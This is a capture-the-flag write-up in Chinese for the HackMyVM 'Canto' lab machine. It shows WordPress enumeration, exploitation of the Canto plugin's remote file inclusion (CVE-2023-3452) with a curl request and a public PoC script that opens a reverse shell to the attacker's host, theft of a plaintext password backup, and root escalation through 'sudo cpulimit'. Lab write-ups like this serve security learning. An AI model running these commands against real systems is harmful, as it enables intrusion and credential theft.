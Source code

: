 # Canto

2024-11-02 https://hackmyvm.eu/machines/machine.php?vm=Canto

difficulty: Easy

## IP

192.168.5.40

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.3p1 Ubuntu 1ubuntu3.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c6af1821fa3f3cfc9fe4ef04c916cbc7 (ECDSA)
|_  256 ba0e8f0b2420dc75b71b04a181b66d64 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Ubuntu))
|_http-server-header: Apache/2.4.57 (Ubuntu)
|_http-generator: WordPress 6.5.3
|_http-title: Canto
```

wpscan --url http://192.168.5.40/ -e u 发现用户 erik

尝试包破 erik 用户的登陆密码，没用找到。尝试用字典对 web 目录进行爆破，也没找到入口点。在看 wp 有没有可利用的漏洞插件：

```
wpscan --url http://192.168.5.40/ --plugins-detection mixed
```

发现插件 canto 3.0.4，搜索后有 exp CVE-2023-3452，进行验证发现存在漏洞：

```
curl 'http://192.168.5.40/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://192.168.5.3'
```

使用此 exp 进行利用 https://github.com/leoanggal1/CVE-2023-3452-PoC

```
python3 CVE-2023-3452.py -u http://192.168.5.40 -LHOST 192.168.5.3 -LPORT 5554 -NC_PORT 8888 -s ./5.3/8888.php
```

得到 shell 后，发现是 www-data 权限，需要进一步提权。进入 /home/erik 发现 note 提示，找到 database backup：

```
find / -type d -name '*backups*' 2>/dev/null

www-data@canto:/$ cd /var/wordpress/backups/
www-data@canto:/var/wordpress/backups$ ls
12052024.txt
www-data@canto:/var/wordpress/backups$ cat 12052024.txt
------------------------------------
| Users	    |      Password        |
------------|----------------------|
| erik      | th1sIsTheP3ssw0rd!   |
------------------------------------
```

su 切换到 erik 用户，得到 user flag:

```
erik@canto:~$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```

继续提权到 root：

```
sudo -l

sudo cpulimit -l 100 -f /bin/sh
# cat root.txt
1b56eefaab2c896e57c874a635b24b49
```
